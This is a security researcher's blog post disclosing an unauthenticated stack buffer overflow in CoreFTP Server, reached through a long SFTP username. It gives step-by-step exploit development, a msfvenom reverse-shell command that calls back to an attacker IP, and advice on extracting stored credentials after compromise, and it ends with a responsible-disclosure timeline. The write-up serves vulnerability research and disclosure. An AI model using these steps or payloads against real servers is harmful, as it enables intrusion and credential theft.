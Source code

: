 ```yaml
---
layout: post
title:  "Unauthenticated Remote Code Execution/DoS on CoreFTP Server - CVE Pending"
date:   2020-08-16 01:01:00 +0100
categories: binary reverse exploitation
---
```


# Unauthenticated Remote Code Execution/DoS on CoreFTP Server - CVE Pending

Well hello there, hope everyone is doing well on this lockdown. As with many people, I start learning some new tricks and I went very old school on this one. Due to the excess time, we had to play with another thing I started looking again for old school exploits such as Buffer Overflows. Well, it didn't take long to find one.

CoreFTP comes in two versions: a client and a Server. Let us focus on the server-side. CoreFTP Server is a FTP Server (shocking) that allows IT administrators not only to serve as FTP but as SFTP with client certificates and integrate with the domain. For the sake of clarity, we tested the Core FTP build 583.

## Starting testing

As with every test we start by sending some erroneous data to every user input field possible. There were a lot of crashes in the Server Management GUI. For instance, on the self-signed server certificate fields, we could overwrite the EIP pretty easily, but the problem would be non-ASCII characters and it would be dumb since you there already have access to the management interface that supposedly operates in Administrative mode since the server needs to bind to lower ports (0-1023).


However, this just opens a door to exploit other fields. The server exposes a network port to allow clients to connect and retrieve data. I choose to go with the SFTP (Basically SSH only with file support) with SSH keys enabled. The first idea was to try to send garbage data in the Key-Exchange phase of the protocol, for instance, send an overly long encoded communication to trigger the exploit. However, the clients try to verify if the data is valid before sending. Next, I just tried the simple username with ```'A'*huge_amount``` and the server stopped responding and hanged. Hmmm..

![crashServer]({{images/coreftprce/image4.png | absolute_url}})


I quickly created an environment with the service running on a Windows XP SP3 Build 2600 (because, no protections) and another on a Windows 10 machine. For the sake of clarity, my **victim machine will be at 192.168.155.132** and the **attackers machine will be at 192.168.155.176**. I quickly checked the binary and verified that it doesn't have any security extensions this means no ASLR no DEP, nothing. This means that we don't need to worry about bypassing these technologies. I follow the training in [here](https://www.fuzzysecurity.com/tutorials.html) (and I really recommend it). I attached a debugger (ImmunityDBG) to the process and generated a SSH key pair (it really doesn't matter as we are going to find out) and use it to connect to the server but with the 'A'*1024 as the username and we get the glorious EIP 41414141. Hurray! We control the EIP and have a basic entry point to try to exploit this!

![debuggerattached]({{images/coreftprce/image5.png | absolute_url}})


## Exploiting it

If you read the tutorial link (and I think you should if it's the first time you reading something like this) you should know that the next step is to determine the offset to rewrite the EIP. You can either do it by trial and error or be intelligent and use something like the pattern generator tool from the Metasploit framework. Using that we can see that the EIP will be overwritten after ```198 bytes```. This means that we need to write 198 bytes before rewriting it.

![monafindoffset]({{images/coreftprce/image1.png | absolute_url}})

After that find any instruction capable of jumping to our shellcode such as a ```call ESP```. We can use [mona script](https://github.com/corelan/mona) to help enumerate all the possibilities to do this. Basically, it will search for all compatible instructions in all the code and imported functions. Since the main code contains a NULL byte we can not choose it so we need to rely on imported DLLs. Since Windows XP have a lot of them without ALSR we can pick one that suits us. This means that the exploit needs to be ported for other operating systems, service packs, maybe languages... etc.

![monajumptoshellcode]({{images/coreftprce/image6.png | absolute_url}})

In the previous image, we can see some of the possible ```JUMP ESP``` instructions but there are a lot more on them in a text file on your workspace:

![monajumptoshellcode2]({{images/coreftprce/image7.png | absolute_url}})

Next, we should move along and perform a bad chars evaluation. This means, when we send the characters to the buffer, some of them may break the normal functioning of the exploit (due to verifications or operations on them). To do this we can use the mona script to generate an array of all possible values, from 0x00 to 0xFF or 0 to 255. Sending this buffer and analyzing the memory afterwards gets us the bad chars. Mona script can help compare the chars and the bad chars and provide a direct response on what we should exclude of the payload.

![monadetectbadchars]({{images/coreftprce/image8.png | absolute_url}})


The payload can then be crafted using the Metasploit Venom and passing the bad chars (```\x00 \x01 \x02 \x0a \x0d \x40```) with the '-b' flag. We generate a small payload to get remote code execution:

```msfvenom -a x86 --platform Windows -p windows/meterpreter/revrse_tcp LHOST=192.168.155.176 LPORT=443 -b '\x00\x01\x02\x0a\x0d\x40 -f python --smallest```

 In this case, I used a meterpreter payload just because but you can choose whatever you want. I just opened a listener on Metasploit console and run the following exploit.

![exploitcode]({{images/coreftprce/image9.png | absolute_url}})


Yes, I pasted an image with the code because it could trigger Antivirus Agents since it has a very rudimentary Meterpreter shell in it. The exploit uses the [paramiko SSH library](http://www.paramiko.org/) to connect to the SSH service and pass the payload as the username. Obviously, the connection will fail but at that point, we should get our shell in Metasploit. One small detail, if we use the ```CALL ESP``` the exploit will succeed and the service will continue to run as intended, at least on this case. Hurray, we got unauthenticated RCE! =). Some additional remarks are in order: Once you get RCE and can access the file system, try to access the configuration file. There you will find several hashes encrypted with AES256, some dude did a great reversing job and posted the procedure to decrypt them [here](https://coreysalzano.com/how-to/how-to-extract-passwords-from-core-ftp-le/). You can also look for certain memory locations of the decrypted hashes (I sure did but later found out this, at least I learn something in the process). Then you can use that credential hopefully to maintain access. The application needs to run on Administrator mode so you just got at least Local Administrative on a machine, congratz!

![exploitcode]({{images/coreftprce/image10.png | absolute_url}})

There are also other versions vulnerable to this but after version 2.1 of the CoreFTP Server, the buffer started converting to UTF-8 and we need to perform [Venetian method](https://img2.helpnetsecurity.com/dl/articles/unicodebo.pdf) to exploit it. I was not successful in doing that so the last that we are able to achieve is Denial of Service (DoS). To do this we just send garbage to the buffer and crash the service. Meh, not that good but could be helpful in some situations. Maybe someone that knows more than what I do can help and exploit this.

There is the problem of portability of the exploit. I did this on a Windows XP SP3 machine (except the detection of security extensions, that I did on the Windows 10 Machine) so I won't be bothered with ASLR and DEP modes. Since the code of the program holds bad chars, such as the NULL byte (0x00) we can't use it to steal an instruction to jump to our shellcode, otherwise, the exploit would work on all OSs. Therefore we needed to use some of the imported DLLs present to reuse the instruction and to jump to our shellcode. One interesting thing to work on is to try to craft something that would bypass the authentication, jump the verification of the password and give access to files. Don't know if it is possible but I wonder. Also, this exploit **only works if the SSH key is enabled**. You don't need a user registered with it but the server should accept it. Basically, the problem relies on the strongest configuration (using SSH keys to authenticate users) even if there is none configured.

## Disclosure

This vulnerability follows the responsible disclosure standard. At first, the vendor did not reply but after insisting I got trough to someone who could patch this. After investigation, he provided the patch to clients and after the patch is available for one month, I released this disclosure. I like to thank them for providing support for fixing this vulnerability. As a footnote, I am still wating for the CVE ID from Mitre, when that's available, I'll update this page.

## Timeline

* 01/05/2020 - Vulnerability discovery
* 02/06/2020 - First contact with vendor
* 21/06/2020 - Second contact with vendor
* 26/06/2020 - Vulnerability fix tested, patch confirmed
* 27/07/2020 - Official date of release
* 16/08/2020 - Real date of release
